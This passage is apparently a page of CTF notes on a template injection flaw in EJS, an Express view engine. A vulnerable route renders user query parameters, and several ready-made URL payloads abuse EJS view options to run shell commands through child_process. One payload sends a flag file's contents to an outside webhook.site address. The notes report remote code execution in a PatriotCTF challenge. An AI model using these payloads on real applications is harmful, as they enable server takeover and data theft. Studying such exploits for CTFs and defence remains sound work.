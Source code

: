       app.set('view engine', 'ejs');
      
      app.get('/page', (req,res) => {
          res.render('page', req.query);
      })
      
      app.listen(port, () => {
        console.log("Example app listening on port ${port}")
      })

- POC code: `This poc below works well with `^3.1.7`

      http://127.0.0.1:3000/page?settings[view%20options][closeDelimiter]=1")%3bprocess.mainModule.require('child_process').execSync('calc')%3b//

- Another POC code with [escapeFunction]

      http://127.0.0.1:3000/?name=John&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('calc');

- Poc for out-of-band exfiltration
  
      http://127.0.0.1:3000/?settings[view%20options][client]=true&settings[view%20options][escapeFunction]=1;return%20fetch(`https://webhook.site/fb92548e-56b3-4f02-9ca7-2b702be8f227?flag=${process.mainModule.require('child_process').execSync('cat%20flag-aaee2b1430.txt').toString()}`);//

### Testing on version `^3.1.9` in PatriotCtf with the above POC

- Oops,we have RCE

![image](https://github.com/user-attachments/assets/de683e16-2030-41b1-9e10-28bbfb267607)


---------------------

### REFERENCES:

- [Github](https://gist.github.com/ky28059/d539294051afa549eb303b832c7a5826)
- [Github](https://github.com/mde/ejs/issues/720)

--------------------

### Php escapes for `escapeshellcmd() and escapeshellargs()`

- [kacperszurek](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md)

---------------------

### Using Flask_unsign as a module in python's code

--------------------

### Importing it
